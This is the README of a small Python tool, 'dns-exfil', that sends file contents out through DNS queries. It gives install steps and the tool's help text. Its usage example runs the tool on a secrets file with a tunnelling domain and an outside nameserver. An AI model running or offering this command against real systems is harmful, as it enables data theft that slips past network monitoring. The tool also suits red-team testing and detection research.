 # dns-exfil
A simple DNS exfiltration script.


## Installation
1. `git clone https://github.com/rybolov/dns-exfil.git`
2. `python3 -m venv ./venv`
3. `source ./venv/bin/activate`
4. `pip3 install -r requirements.txt`
4. `python3 ./main.py --file secrets.small.txt --type A --domain google.com --nameserver 9.9.9.9` 
5. Enjoy

```
$ python3 ./main.py --help

usage: main.py [-h] [--filename FILENAME] [--blocksize {4,5,6,7,8,9,10,11,12,13,14,15,16}] [--domain DOMAIN] [--data DATA] [--type {A,TXT}]
               [--nameserver NAMESERVER] [--verbose]

Exfiltrate data using DNS.
options:
  -h, --help            show this help message and exit
  --filename FILENAME, --file FILENAME, -f FILENAME, -i FILENAME, --input FILENAME
                        File to exfiltrate. (default: none)
  --blocksize {4,5,6,7,8,9,10,11,12,13,14,15,16}, -b {4,5,6,7,8,9,10,11,12,13,14,15,16}, -bs {4,5,6,7,8,9,10,11,12,13,14,15,16}
                        Size of blocks to encode. (default: 12)
  --domain DOMAIN, -d DOMAIN
                        Domain to use for tunneling. (default: google.com)
  --data DATA           Read data from the command line. (default: none)
  --type {A,TXT}, -t {A,TXT}
                        Read data from the command line. (default: TXT)
  --nameserver NAMESERVER, -n NAMESERVER, -ns NAMESERVER
                        Nameserver to query. (default: 8.8.8.8)
  --verbose, -v         Verbose output. (default: none)
```